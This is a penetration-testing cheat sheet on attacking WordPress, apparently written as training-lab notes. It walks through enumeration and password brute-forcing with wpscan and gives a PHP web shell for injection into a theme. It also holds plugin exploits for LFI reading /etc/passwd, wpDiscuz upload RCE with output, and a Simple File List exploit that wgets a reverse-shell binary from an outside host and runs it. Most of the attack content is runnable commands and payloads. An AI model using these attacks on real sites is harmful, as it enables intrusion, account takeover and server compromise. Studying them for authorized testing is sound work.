

# WordPress

## General


[WordPress Vulnerability Statistics](https://wpscan.com/statistics/)


```shell
# Web root
/wp-admin
    admin.php
/wp-content
    /themes
    /plugins
/wp-includes
index.php
license.txt
readme.html
wp-activate.php
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-cron.php
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
.htaccess
wp-config.php # database info
```

<details>

<summary>Wordlists</summary>

[wordpress.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)

[wp-plugins.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)

[wp-themes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt)

</details>

<details>

<summary>Roles &#x26; Permissions</summary>

Administrator -> King :crown:

Editor -> Post management + publish (for all users)

Author -> Post management + publish (owned posts)

Contributor -> Post management (owned posts)

Subscriber -> Browse posts, manage its own profile

</details>

## Enumeration




```bash
# Version
curl -s example.com | grep '<meta name="generator"'

# Themes
curl -s example.com | grep themes

# Plugins
curl -s example.com | grep plugins
sudo wpscan -t 20 --url http://readys -e ap --plugins-detection aggressive

# Plugin version (requires Directory listing to be enabled)
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```




[WPScan](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation) is a free, Ruby-based WordPress security scanner that performs black-box testing to identify vulnerabilities in WordPress core, plugins, themes, and user configurations.


For vulnerability scanning get a token from [WPScan](https://wpscan.com/).



```bash
# Update database
wpscan --update

# General enumeration
sudo wpscan --url example.com --enumerate --api-token <TOKEN>

# Modify agent for WAF evasion
sudo wpscan --url example.com --enumerate --api-token <TOKEN> --random-user-agent
```




## Attacks

### BFA

`wp-login.php` is the standard login form that accepts one login attempt per request. `xmlrpc.php` allows login via API calls and can bundle many attempts in one request, making brute-force faster. Even if `wpscan` outputs that XML-RPC is enabled, login-related methods may be blocked by plugins or server settings, so attacks through it can fail while `wp-login` attacks still work.

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) → uses WP's API to BF (`xmlrpc.php`) (faster)
2. wp-login → attempts to BF `wp-login.php`&#x20;


```bash
# Enumerating users and brute-forcing
sudo wpscan --url example.com -e u --passwords password.lst

# Targeted BFA using xmlrpc
sudo wpscan --password-attack xmlrpc -t 20 --url http://example.com -U roger -P /usr/share/wordlists/rockyou

# Targeted BFA using wp-login
sudo wpscan --password-attack wp-login -t 20 --url http://example.com -U james -P cewl_tokens.txt
```


### RCE



Modify an inactive theme (for avoiding breaking the site) by inserting a PHP web shell:&#x20;

```php
<?php system($_GET['c']); ?>
```

<figure><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

The same exact method can be done with Plugins:


Remeber to activate the plugin after: _Plugins_ → _Installed Plugins_ → _Activate_.


<figure><figcaption></figcaption></figure>



MSF's [`wp_admin_shell_upload`](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module can be used:

```bash
# use module (make sure to set VHOST if needed)
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```



## Plugins



No longer supported:

* [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438)
* [Local File Inclusion](https://www.exploit-db.com/exploits/50226).


```php
<?php 

include($_GET['pl']); # no validation/sanitization
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```



```shell
$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```




wpDiscuz version `7.0.4` contains a **file upload vulnerability** **that can lead to unauthenticated remote code execution** ([CVE-2020-24186](https://nvd.nist.gov/vuln/detail/CVE-2020-24186)). Although the plugin is meant to accept only image attachments in comments, its MIME type validation can be bypassed, allowing a PHP file to be uploaded and executed. Exploitation requires a valid post with comments enabled.

The [PoC](https://www.exploit-db.com/exploits/49967) takes two arguments: `-u` for the target URL and `-p` for the path to a comment-enabled post. Once executed, the script uploads the payload and returns the file path for remote code execution.


The default PoC may fail, but `curl` can be used to interact with the uploaded webshell.



```bash
$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...

$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```




Simple File List plugin < `4.2.3` is vulnerable to an **unauthenticated RCE** flaw ([CVE-2025-34085](https://nvd.nist.gov/vuln/detail/CVE-2025-34085/change-record?changeRecordedOn=07/16/2025T12:15:26.130-0400)). Despite being designed to allow file uploads, the plugin fails to properly validate files after they are renamed. An attacker can upload a file with a benign extension (e.g., `.png`) that actually contains PHP code. Using a vulnerable script within the plugin, the file can then be renamed to `.php` and accessed directly, resulting in full remote code execution. The available [PoC](https://github.com/B1ack4sh/Blackash-CVE-2025-34085) allows direct RCE via the `--cmd` parameter:&#x20;


```bash
# Transfer a reverse shell payload
$ python3 CVE-2025-34085.py -u http://nukem --cmd "wget http://192.168.45.170/revshell.elf -O /tmp/revshell.elf"

# Make the file executable
$ python3 CVE-2025-34085.py -u http://nukem --cmd "chmod +x /tmp/revshell.elf"

# Execute the file
$ python3 CVE-2025-34085.py -u http://nukem --cmd "/tmp/revshell.elf"
```




The Site Editor plugin, up to version `1.1.1`, is vulnerable to an unauthenticated LFI flaw ([CVE-2018-7422](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422)) via the `ajax_path` parameter in the `ajax_shortcode_pattern.php` script, part of its PageBuilder extension. This endpoint fails to sanitize input, allowing attackers to include arbitrary files using absolute paths.


```bash
$ searchsploit WordPress Site Editor
WordPress Plugin Site Editor 1.1.1 - Local File Inclusion | php/webapps/44340.txt

$ curl -s --path-as-is "http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd"
```



